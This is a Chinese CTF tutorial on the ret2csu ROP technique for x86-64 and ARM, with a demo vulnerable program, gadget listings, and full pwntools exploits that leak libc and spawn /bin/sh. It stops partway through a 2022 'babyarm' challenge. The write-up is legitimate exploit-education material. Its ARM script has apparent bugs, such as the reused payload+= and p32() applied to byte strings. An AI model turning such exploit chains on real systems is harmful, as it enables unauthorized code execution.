# x86&arm 架构下的 ret2csu - 先知社区

x86&arm 架构下的 ret2csu


# x86&arm ret2csu

# 前言

前几天学习 arm 架构下的 pwn 的时候发现大多用的都是 ret2csu 打法，正好结合复习一下 ret2csu。

## x86 下的 ret2csu

### 基础例题

**demo 源码**

```plain
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void init(){
    setvbuf(stdout, 0LL, 2, 0LL);
    setvbuf(stdin, 0LL, 2, 0LL);
    setvbuf(stderr, 0LL, 2, 0LL);
}

void vul(){
    char buf[128];
    read(0, buf, 512);
}

int main(int argc, char** argv){
    init();
    write(1, "Hello, World\n", 13);
    vul();
}
```

**gcc 编译**

```plain
gcc -z lazy -fno-stack-protector -no-pie -o csu csu.c
```

**file&checksec**

[](https://xzfile.aliyuncs.com/media/upload/picture/20230723200049-908e6eb8-2950-1.png)

**IDA 静态分析一下**

main()

```plain
int __cdecl main(int argc, const char **argv, const char **envp)
{
  init(argc, argv, envp);
  write(1, "Hello, World\n", 0xDuLL);
  vul();
  return 0;
}
```

vul()

```plain
ssize_t vul()
{
  char buf[128]; // [rsp+0h] [rbp-80h] BYREF

  return read(0, buf, 0x200uLL);
}
```

典型栈溢出，不多说了，现在就是如何构造 rop 链的问题

ROPgadget 看一下

```plain
Gadgets information
============================================================
0x00000000004012ac : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004012ae : pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004012b0 : pop r14 ; pop r15 ; ret
0x00000000004012b2 : pop r15 ; ret
0x00000000004012ab : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004012af : pop rbp ; pop r14 ; pop r15 ; ret
0x000000000040115d : pop rbp ; ret
0x00000000004012b3 : pop rdi ; ret
0x00000000004012b1 : pop rsi ; pop r15 ; ret
0x00000000004012ad : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000040101a : ret
```

x86 架构下 64 位程序前 6 个参数是存储在 rdi,rsi,rdx,rcx,r8,r9 的，但是看了一下，没有可以直接利用的 gadget

但是需要找到某些函数去控制 rdx 才能利用 write 函数去泄露 libc，然后才能进行接下来的操作

解决这种问题的方法就叫做 ret2csu，主要用到的是\_\_libc\_csu\_init 函数。

\_\_libc\_csu\_init 函数的作用是对将要链接进 elf 的 libc 进行初始化。

相关汇编代码

```plain
.text:0000000000401250 __libc_csu_init proc near               ; DATA XREF: _start+1A↑o
.text:0000000000401250 ; __unwind {
.text:0000000000401250                 endbr64
.text:0000000000401254                 push    r15
.text:0000000000401256                 lea     r15, __frame_dummy_init_array_entry
.text:000000000040125D                 push    r14
.text:000000000040125F                 mov     r14, rdx
.text:0000000000401262                 push    r13
.text:0000000000401264                 mov     r13, rsi
.text:0000000000401267                 push    r12
.text:0000000000401269                 mov     r12d, edi
.text:000000000040126C                 push    rbp
.text:000000000040126D                 lea     rbp, __do_global_dtors_aux_fini_array_entry
.text:0000000000401274                 push    rbx
.text:0000000000401275                 sub     rbp, r15
.text:0000000000401278                 sub     rsp, 8
.text:000000000040127C                 call    _init_proc
.text:0000000000401281                 sar     rbp, 3
.text:0000000000401285                 jz      short loc_4012A6
.text:0000000000401287                 xor     ebx, ebx
.text:0000000000401289                 nop     dword ptr [rax+00000000h]
.text:0000000000401290
.text:0000000000401290 loc_401290:                             ; CODE XREF: __libc_csu_init+54↓j
.text:0000000000401290                 mov     rdx, r14
.text:0000000000401293                 mov     rsi, r13
.text:0000000000401296                 mov     edi, r12d
.text:0000000000401299                 call    ds:(__frame_dummy_init_array_entry - 403E10h)[r15+rbx*8]
.text:000000000040129D                 add     rbx, 1
.text:00000000004012A1                 cmp     rbp, rbx
.text:00000000004012A4                 jnz     short loc_401290
.text:00000000004012A6
.text:00000000004012A6 loc_4012A6:                             ; CODE XREF: __libc_csu_init+35↑j
.text:00000000004012A6                 add     rsp, 8
.text:00000000004012AA                 pop     rbx
.text:00000000004012AB                 pop     rbp
.text:00000000004012AC                 pop     r12
.text:00000000004012AE                 pop     r13
.text:00000000004012B0                 pop     r14
.text:00000000004012B2                 pop     r15
.text:00000000004012B4                 retn
```

csu 这种利用方式分为两部分第一部分就是从地址 0x04012AA 到最后，pop 了 rbx，rbp，r12，r13，r14，r15 六个寄存器。第二部分是从 0x0401290 到 0x04012A4，在这里会发现这些 gadget 通过 r14 寄存器控制了 rdx，通过 r13 控制了 rsi，通过 r12 控制了 edi。

再往下走回看到一个 cmp，比较 rbp 和 rbx 是否相等，如果相等不会跳转下一个循环，不相等责向下执行。

这样的话我们就可以利用这个 gadget 去控制参数寄存器，然后去劫持程序执行流 leak libc 至 getshell。

```plain
PS:这里要注意
.text:000000000040129D                 add     rbx, 1
.text:00000000004012A1                 cmp     rbp, rbx
这里是进行了 rbx+1 之后再进行比较的
```

gdb 动调看溢出字节

[](https://xzfile.aliyuncs.com/media/upload/picture/20230723200102-9831ee74-2950-1.png)

```plain
128+8=136
```

然后我们利用垃圾字节覆盖 rbp 后返回地址填入我们的\_\_libc\_csu\_init 那一串 pop rbx 的起始地址

[](https://xzfile.aliyuncs.com/media/upload/picture/20230723200108-9c318534-2950-1.png)

```plain
rbx ->0
rbp ->1
r12 ->arg1
r13 ->arg2
r14 ->arg3
r15 ->func_addr(这里是因为 call qword ptr [r15+rbx*8]，我们将 rbx 设置为 0 了，这里就相当于 call func 了)

call 函数为跳转到某地址内所保存的地址，应该使用 got 表中的地址
ret 指令必须跳转到一段有效的汇编指令，所以应为 plt 表中的地址
```

这里画一下最基本的 ret2csu 的栈帧，

[](https://xzfile.aliyuncs.com/media/upload/picture/20230723200117-a1904272-2950-1.png)

第一个框就是说明

```plain
r14 ->rdx
r13 ->rsi
r12 ->rdi
```

第二个框

```plain
rbx=rbx+1
rbp=rbx ->继续执行不跳转
rbp != rbx -> jmp loc_401290
```

第三个框

```plain
rsp=rsp+8
抬高一个字长，所以要执行完 gadget1 后加上一个垃圾字长
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230723200138-ae13e56c-2950-1.png)

第一个 payload

```plain
这里是为了泄露 write 的 got 表地址
r12 -> 1
r13 ->write_got
r14 ->0x8
r15 ->write_got
ret ->gadget2
p64(1)*7 ->主要是上面我说的 padding ->新一轮的 rsp+8,rbx,rbp,r12,r13,r14,r15
```

第二个 payload

```plain
这里是为了调用 read 函数从而将 system,binsh 写入 bss 段
r12 ->0
r13 ->bss 段地址
r14 ->0x20
r15 ->read_got
```

第三个 payload

```plain
这里是传入我们写入 system 和 binsh 的地址
r12 ->binsh 的地址 ->bss 段地址为 0x404060->我们传入的是 system+binsh，所以 binsh 的地址为 0x404068
r13 ->0
r14 ->0
r15 ->system
```

exp:

```plain
from pwn import *
context.log_level='debug'
p=process('./csu')
elf = ELF('./csu')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(data)
sls     = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']
def dbg():
    gdb.attach(p,'b *$rebase(0x13aa)')
    pause()

def ret_csu(r12, r13, r14, r15, last):
    payload = offset * 'a'  
    #构造栈溢出的 padding
    payload += p64(first_csu) + 'a' * 8    
    #gadgets1 的地址
    payload += p64(0) + p64(1)
    #rbx=0, rbp=1
    payload += p64(r12)
    #call 调用的地址
    payload += p64(r13) + p64(r14) + p64(r15)
    #三个参数的寄存器
    payload += p64(second_csu)
    #gadgets2 的地址
    payload += 'a' * 56
    #pop 出的 padding
    payload += p64(last)
    #函数最后的返回地址
    return payload
#做熟练了可以直接用这个通用 Payload

write_got=elf.got['write']
leak('write_got',write_got)
main=elf.symbols['main']
leak('main',main)
read=elf.got['read']
leak('read',read)


"""
.text:00000000004012AA                 pop     rbx
.text:00000000004012AB                 pop     rbp
.text:00000000004012AC                 pop     r12
.text:00000000004012AE                 pop     r13
.text:00000000004012B0                 pop     r14
.text:00000000004012B2                 pop     r15
.text:00000000004012B4                 retn
"""
pl=cyclic(136)+p64(0x4012AA)+p64(0)+p64(1)+p64(1)+p64(write_got)+p64(0x8)+p64(0x404018)+p64(0x401290)+p64(1)*7+p64(main)
p.sendlineafter('Hello, World\n',pl)

write=uu64(r(6))
leak('write',write)

libcbase=write-libc.symbols['write']
leak('libcbase',libcbase)

"""
.text:0000000000401290                 mov     rdx, r14
.text:0000000000401293                 mov     rsi, r13
.text:0000000000401296                 mov     edi, r12d
.text:0000000000401299                 call    ds:(__frame_dummy_init_array_entry - 403E10h)[r15+rbx*8]
.text:000000000040129D                 add     rbx, 1
.text:00000000004012A1                 cmp     rbp, rbx
.text:00000000004012A4                 jnz     short loc_401290
"""

pl2=cyclic(136)+p64(0x4012AA)+p64(0)+p64(1)+p64(0)+p64(0x404060)+p64(0x20)+p64(read)+p64(0x401290)+p64(1)*7+p64(main)
p.sendline(pl2)
p.send(p64(libcbase+libc.symbols['system'])+b'/bin/sh\00')

pl3=cyclic(136)+p64(0x4012AA)+p64(0)+p64(1)+p64(0x404068)+p64(0)+p64(0)+p64(0x404060)+p64(0x401290)
p.sendlineafter('Hello, World\n',pl3)
p.interactive()
```

### 后话

这里说明一下为什么 ret2csu 不适用于 32 位

#### 实例源码

```plain
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void init(){
    setvbuf(stdout, 0LL, 2, 0LL);
    setvbuf(stdin, 0LL, 2, 0LL);
    setvbuf(stderr, 0LL, 2, 0LL);
}

void vul(){
    char buf[128];
    read(0, buf, 512);
}

int main(int argc, char** argv){
    init();
    write(1, "Hello, World\n", 13);
    vul();
}
```

gcc 编译

```plain
gcc -z lazy -fno-stack-protector -no-pie -m32 -o csu32 csu.c
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230723200156-b86217d2-2950-1.png)

32 位的函数调用栈和 64 位是不同的，是直接栈上传参，这里可以看到前两个参数是从栈中传出，第三个是通过 edi 传输的

看一下我们能不能控制这两个参数

[](https://xzfile.aliyuncs.com/media/upload/picture/20230723200203-bc97e4bc-2950-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20230723200208-bfb274aa-2950-1.png)

发现是不行的，这也就是为什么 32 位下不能 ret2csu 打法

## arm 架构下的 ret2csu

我相信有很多人没有进行 arm 架构的学习，这里顺便讲解一下基础知识

### 环境配置

交叉编译器[https://blog.csdn.net/qq\_43826212/article/details/108858626](https://blog.csdn.net/qq_43826212/article/details/108858626)

配置环境[https://askubuntu.com/questions/250696/how-to-cross-compile-for-arm](https://askubuntu.com/questions/250696/how-to-cross-compile-for-arm)

### 运行程序

如果程序是静态链接并且是 32 位 arm 架构的话，输入 qemu-arm ./程序名

如果程序是静态链接并且是 aarch64 架构的话，输入 qemu-aarch ./程序名

如果程序是动态链接且是 32 位 arm 架构的话，输入 qemu-arm -L /usr/arm-linux-gnueabihf ./程序名

如果程序是动态链接且是 aarch64 架构的话，输入 qemu-aarch64 -L /usr/aarch64-linux-gnu ./程序名

### 启动调试

**启动调试和运行程序的命令很相似，仅仅是加了一个参数-g 然后后面跟一个端口**。

比如程序是动态链接的 32 位 arm 架构的话，输入 qemu-arm -g 1234 -L /usr/arm-linux-gnueabi ./程序名

这个 1234 是你指定的端口，指定别的端口也可以。然后参照运行程序那四个命令以及上面这个命令，就可以依次类推出调试 aarch64 架构的命令了。

此时再打开另一个终端，输入 gdb-multiarch（**必须是用 pwndbg，如果是 peda 的话，是没法正常调试的**）

然后再输入 target remote localhost:1234 连接到刚才开的那个端口。

栈帧

在 ARM 上，函数的栈帧是由 SP 寄存器和 FP 寄存器来界定的

### ARM 寄存器

[](https://xzfile.aliyuncs.com/media/upload/picture/20230723200242-d3ec3e9c-2950-1.png)

### ARM 指令

| 指令  | 功能  | 指令  | 功能  |
| --- | --- | --- | --- |
| MOV | 移动数据 | EOR | 按位异或 |
| MVN | 移动数据并取反 | LDR | 加载  |
| ADD | 加法  | STR | 存储  |
| SUB | 减法  | LDM | 加载多个 |
| MUL | 乘法  | STM | 存储多个 |
| LSL | 逻辑左移 | PUSH | 入栈  |
| LSR | 逻辑右移 | POP | 出栈  |
| ASR | 算术右移 | B   | 跳转  |
| ROR | 右旋  | BL  | Link+ 跳转 |
| CMP | 比较  | BX  | 分支跳转 |
| AND | 按位与 | BLX | Linx+ 分支跳转 |
| ORR | 按位或 | SWI/SVC | 系统调用 |

这里需要单独介绍一下 LDR 和 STR 两个指令

LDR 用于将某些内容从内存加载到寄存器中，例如 LDR R2, \[R0\]从 R0 寄存器中存储的内存地址的值读入 R2 寄存器

STR 用于将某些内容从寄存器存储到内存地址中，例如 STR R2, \[R1\]从 R2 寄存器中将值存储到 R1 寄存器中的内存地址中

这里顺便补充一下 B,BL.BLX.BX 的区别：

```plain
(1) B 跳转指令

(2) BL 带返回的跳转指令

(3) BLX 带返回和状态切换的跳转指令

(4) BX 带状态切换的跳转指令
```

### 寄存器传参方式

32 位 arm->寄存器传参，r0 第一个参数，r1 第二个参数，r2 第三个参数，r3 第四个参数，超过 4 个参数还是堆栈传参

### 调试脚本

```plain
#!/bin/sh
# 执行 attach.sh 端口号
arch="arm"
pid=`ps -a|grep "qemu"|awk '{print $1}'`
echo "pid is :" ${pid}
addr=`cat /proc/${pid}/maps |grep libc-|awk -F \- '{if(NR==1) print "0x" $1}'`
echo "libc addr is :"${addr}
libc_file_path=`cat /proc/${pid}/maps |grep libc-|awk  '{if(NR==1) print $6}'`
echo "libc file path is:"${libc_file_path}
gdb-multiarch \
    -ex "file ./pwn" \
    -ex "target remote :${1}" \
    -ex "set architecture ${arch}" \
    -ex "add-symbol-file ${libc_file_path} ${addr}"
```

用法

```plain
bash attach.sh port
```

### 实操

#### ret2libc

**checksec,file**

```plain
Arch:     arm-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x10000)
```

```plain
wn: ELF 32-bit LSB executable, ARM, EABI5 version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.3, BuildID[sha1]=ff3eaeb05a02cfaf5081fa09b0ad4c61680b8fdd, for GNU/Linux 3.2.0, not stripped
```

32 位 arm，开启 nx 保护，那么远程是存在 aslr 保护的

动态链接的文件

**IDA 静态分析**

**main()**

```plain
int __cdecl main(int argc, const char **argv, const char **envp)
{
  func();
  return 0;
}
```

调用 dofunc() 函数

**func()**

```plain
int func()
{
  int buf[3]; // [sp+0h] [bp-Ch] BYREF

  buf[0] = 0;
  buf[1] = 0;
  write(1, "input:", 6u);
  read(0, buf, 256u);
  write(1, "byebye", 6u);
  return 0;
}
```

简单的栈溢出，这里 buf 开辟了 3 字节的缓冲区，但是 read() 读取的时候写入 256 字节的内容

这里顺便说一下为什么栈溢出这么多字节，是因为我们在 arm 架构中的 gadget 中是没有 x86 架构那种的 pop,ret 的，所以需要用类似 x86 架构下的 ret2csu 打法多次调用寄存器

我理解的泄露 ret2csu 的思路

[](https://xzfile.aliyuncs.com/media/upload/picture/20230723200307-e31725c6-2950-1.png)

通过不断调用这一段 gadget，从而调用真正的 write,read，从而写入我们的 system，以及 binsh 字符串，从而 getshell

[](https://xzfile.aliyuncs.com/media/upload/picture/20230723200313-e6ae6a00-2950-1.png)

exp:

```plain
import os
import sys
import time
from pwn import *
from ctypes import *

p = process(["qemu-arm","-g", "1234","-L", "/usr/arm-linux-gnueabi/", "./pwn"])
p = process(['qemu-arm','-L','/usr/arm-linux-gnueabi/','./pwn'])
context.log_level='debug'
context.arch='arm'

elf = ELF('./pwn')
libc=ELF('/usr/arm-linux-gnueabi/lib/libc.so.6')

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

"""
0x000104e0 : mov r2, sb ; mov r1, r8 ; mov r0, r7 ; ldr r3, [r5], #4 ; add r4, r4, #1 ; blx r3
0x000104e0 : mov r2, sb ; mov r1, r8 ; mov r0, r7 ; ldr r3, [r5], #4 ; add r4, r4, #1 ; blx r3 ; cmp r6, r4 ; bne #0x104e0 ; pop {r4, r5, r6, r7, r8, sb, sl, pc}
0x000104a0 : mov r3, #0 ; mov r0, r3 ; pop {fp, pc}
0x0001047c : mov r3, #0 ; mov r0, r3 ; sub sp, fp, #4 ; pop {fp, pc}
0x00010418 : mov r3, #1 ; strb r3, [r4] ; pop {r4, pc}
0x000104dc : mov r4, #0 ; mov r2, sb ; mov r1, r8 ; mov r0, r7 ; ldr r3, [r5], #4 ; add r4, r4, #1 ; blx r3
0x000104dc : mov r4, #0 ; mov r2, sb ; mov r1, r8 ; mov r0, r7 ; ldr r3, [r5], #4 ; add r4, r4, #1 ; blx r3 ; cmp r6, r4 ; bne 
0x104e0 ; pop {r4, r5, r6, r7, r8, sb, sl, pc}
0x00010488 : pop {fp, pc}
0x00010488 : pop {fp, pc} ; andeq r0, r1, ip, lsl r5 ; andeq r0, r1, r4, lsr #10 ; push {fp, lr} ; add fp, sp, #4 ; bl #0x1042c ; mov r3, #0 ; mov r0, r3 ; pop {fp, pc}
0x000102e8 : pop {r3, pc}
0x00010420 : pop {r4, pc}
0x00010500 : pop {r4, r5, r6, r7, r8, sb, sl, pc}
"""

r4_r10_pc=0x00010500
write=elf.got['write']
read=elf.got['read']
bss=elf.bss()+0x100
bss_8=elf.bss()+0x108
ret_addr=elf.symbols['dofunc']

#pop {r4, r5, r6, r7, r8, sb, sl, pc}
again=0x000104e0
#mov r2, sb ; mov r1, r8 ; mov r0, r7 ; ldr r3, [r5], #4 ; add r4, r4, #1 ; blx r3 ; cmp r6, r4 ; bne #0x104e0 ; pop {r4, r5, r6, r7, r8, sb, sl, pc}
pc=0x00010500

ru("input:")
payload=flat([b'a'*12,r4_r10_pc,0,write,1,1,read,4,b'a'*4,pc])

payload+=flat([0,read,1,0,bss,0x10,b'a'*4,again])

payload+=flat([b'a'*4,b'a'*4,b'a'*4,b'a'*4,b'a'*4,b'a'*4,b'a'*4,ret_addr])

sl(payload)
ru('byebye')

read_real=uu32(r(4))
libcbase=read_real-libc.symbols['read']

system=libcbase+libc.symbols['system']

sl(p32(system)+b'/bin/sh\00')
ru("input:")

payload+=cyclic(12)+p32(r4_r10_pc)+p32(b'a'*4)+p32(bss)+p32(b'a'*4)+p32(bss_8)+p32(b'a'*4)+p32(b'a'*4)+p32(b'a'*4)+p32(again)

sl(payload)
p.interactive()
```

#### 2022 安询杯 babyarm

file&checksec

```plain
Arch:     arm-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x10000)
```

```plain
chall: ELF 32-bit LSB executable, ARM, EABI5 version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.3, for GNU/Linux 3.2.0, BuildID[sha1]=829f6a8ec1a5969fb01d69b6fdc4053923e8736a, stripped
```

IDA 看一下

**main\_0()**

```plain
void __fastcall __noreturn main(int a1, char **a2, char **a3)
{
  sub_105FC(a1, a2, a3);
  puts("===== Simple Decoder =====");
  puts("===== v1.0.0 =====");
  while ( 1 )
    sub_10B60();
}
```

**sub\_105FC()**

```plain
unsigned int sub_105FC()
{
  setvbuf((FILE *)stdin, 0, 2, 0);
  setvbuf((FILE *)stdout, 0, 2, 0);
  setvbuf((FILE *)stderr, 0, 2, 0);
  return alarm(0x1Eu);
}
```

就是关闭缓冲区，设定计时器

**sub\_10b60(真正的 main)**

```plain
int sub_10B60()
{
  unsigned int v0; // r0
  int result; // r0
  char v2[32]; // [sp+0h] [bp-2Ch] BYREF
  void *s; // [sp+20h] [bp-Ch]
  void *buf; // [sp+24h] [bp-8h]

  buf = malloc(0x80u);
  printf("msg> ");
  read(0, buf, 0x80u);
  s = malloc(0x200u);
  memset(s, 0, 0x200u);
  v0 = strlen((const char *)buf);
  sub_10668((int)buf, v0, (int)s);
  printf("res> ");
  puts((const char *)s);
  result = strcmp((const char *)s, "Sp5jS6mpH6LZC6GqSWe=");
  if ( !result )
  {
    printf("comment> ");
    return read(0, v2, 256u);
  }
  return result;
}
```

逆向分析一下，malloc 申请 0x80 的空间存储输入的 msg 的值，s 同理

这里利用 strcmp() 进行比较，如果 res 与 Sp5jS6mpH6LZC6GqSWe=相等，那么就会提示我们输入内容，利用 read() 进行读取我们输入的内容

